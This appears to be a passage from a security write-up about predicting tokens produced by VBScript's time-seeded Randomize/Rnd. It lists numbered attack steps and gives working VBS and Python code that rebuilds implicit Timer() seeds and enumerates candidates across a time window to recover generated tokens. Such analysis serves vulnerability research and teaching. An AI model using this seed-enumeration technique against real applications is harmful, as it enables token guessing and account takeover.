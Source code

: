 Notes:
- Calling Randomize repeatedly doesn’t change the PRNG state unless the seed actually changes (e.g., across ticks). Within the same 0.015625 s, outputs will repeat.
- To deterministically reinitialize the PRNG with a given seed, VBScript requires calling Rnd(-1) before Randomize s, per documentation.

### Reproducing implicit seeds with an explicit Double

Attack steps:
1) Convert a suspected generation time into the exact VBScript float32 Timer() value by snapping to 1/64 s and truncating to Single precision.
2) Build a Double whose high dword equals that float32 bit-pattern and low dword equals zero. Pass this Double to Randomize s to emulate no-arg seeding for that tick.
3) Iterate candidates across the time window in 0.015625 s steps and compare predicted tokens.

VBS helper (manual seed, reseeded per character to mirror vulnerable code):

```vb
Option Explicit
If WScript.Arguments.Count < 1 Then
    WScript.Echo "VBS_Error: Requires 1 seed argument."
    WScript.Quit(1)
End If
Dim seedToTest: seedToTest = WScript.Arguments(0)
WScript.Echo "Seed: " & seedToTest
Dim chars, n: chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789()*&^%$#@!": n = 32
WScript.Echo "Predicted token: " & GenerateToken(chars, n, seedToTest)
function GenerateToken(chars, n, seed)
    Dim result, pos, i, charsLength: charsLength = Int(Len(chars))
    For i = 1 To n
        Randomize seed            ' emulate implicit seed via crafted Double
        pos = Int((Rnd * charsLength) + 1)
        result = result & Mid(chars, pos, 1)
    Next
    GenerateToken = result
end function
```

Python core for seed enumeration:

```python
import struct

TICK = 1/64  # 0.015625 s

def vbs_timer_value(clock_secs: float) -> float:
    # snap to 1/64 s and force to Single (float32)
    secs = round(clock_secs / TICK) * TICK
    secs = struct.unpack('<f', struct.pack('<f', secs))[0]
    return secs

def make_manual_seed(timer_value: float) -> float:
    # build Double whose high dword == float32 bits, low dword == 0
    single_le = struct.pack('<f', timer_value)
    dbl_le    = b"\x00\x00\x00\x00" + single_le
    return struct.unpack('<d', dbl_le)[0]

# Example usage (invoke VBS):
# subprocess.run(["cscript.exe", "//nologo", VBS_PATH, str(seed)])
```
